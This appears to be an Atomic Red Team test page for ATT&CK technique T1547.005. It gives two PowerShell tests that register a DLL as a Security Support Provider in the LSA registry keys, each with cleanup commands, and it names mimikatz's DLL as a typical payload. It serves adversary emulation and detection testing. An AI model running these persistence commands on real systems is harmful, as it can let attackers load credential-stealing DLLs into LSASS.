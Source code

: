 ```yaml
---
tags: [T1547_005, atomic_test]
filename: "[[T1547.005 - Boot or Logon Autostart Execution- Security Support Provider]]"
---
```

# T1547.005 - Boot or Logon Autostart Execution: Security Support Provider

## Atomic Test #1 - Modify HKLM:\System\CurrentControlSet\Control\Lsa Security Support Provider configuration in registry
Add a value to a Windows registry Security Support Provider pointing to a payload .dll which will normally need to be copied in the system32 folder.
A common DLL used with this techquite is the minilib.dll from mimikatz, see https://pentestlab.blog/2019/10/21/persistence-security-support-provider/

**Supported Platforms:** Windows


**auto_generated_guid:** afdfd7e3-8a0b-409f-85f7-886fdf249c9e






#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
$oldvalue = $(Get-ItemProperty HKLM:\System\CurrentControlSet\Control\Lsa -Name 'Security Packages' | Select-Object -ExpandProperty 'Security Packages');
Set-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Lsa" -Name 'Security Packages old' -Value "$oldvalue";
$newvalue = "AtomicTest.dll";
Set-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa -Name 'Security Packages' -Value $newvalue
```

#### Cleanup Commands:
```powershell
$oldvalue = $(Get-ItemPropertyValue -Path  "HKLM:\System\CurrentControlSet\Control\Lsa" -Name 'Security Packages old' | Select-Object -ExpandProperty 'Security Packages old');
Set-ItemProperty -Path HKLM:\System\CurrentControlSet\Control\Lsa -Name 'Security Packages' -Value "$oldvalue";
Remove-ItemProperty -Path  "HKLM:\System\CurrentControlSet\Control\Lsa" -Name 'Security Packages old';
```





<br/>
<br/>

## Atomic Test #2 - Modify HKLM:\System\CurrentControlSet\Control\Lsa\OSConfig Security Support Provider configuration in registry
Add a value to a Windows registry SSP key, simulating an adversarial modification of those keys.

**Supported Platforms:** Windows


**auto_generated_guid:** de3f8e74-3351-4fdb-a442-265dbf231738






#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
$oldvalue = $(Get-ItemProperty HKLM:\System\CurrentControlSet\Control\Lsa\OSConfig -Name 'Security Packages' | Select-Object -ExpandProperty 'Security Packages');
Set-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Lsa\OSConfig" -Name 'Security Packages old' -Value "$oldvalue";
$newvalue = "AtomicTest.dll";
Set-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\OSConfig -Name 'Security Packages' -Value $newvalue
```

#### Cleanup Commands:
```powershell
$oldvalue = $(Get-ItemPropertyValue -Path  "HKLM:\System\CurrentControlSet\Control\Lsa\OSConfig" -Name 'Security Packages old' | Select-Object -ExpandProperty 'Security Packages old');
Set-ItemProperty -Path HKLM:\System\CurrentControlSet\Control\Lsa\OSConfig -Name 'Security Packages' -Value "$oldvalue";
Remove-ItemProperty -Path  "HKLM:\System\CurrentControlSet\Control\Lsa\OSConfig" -Name 'Security Packages old';
```





<br/>
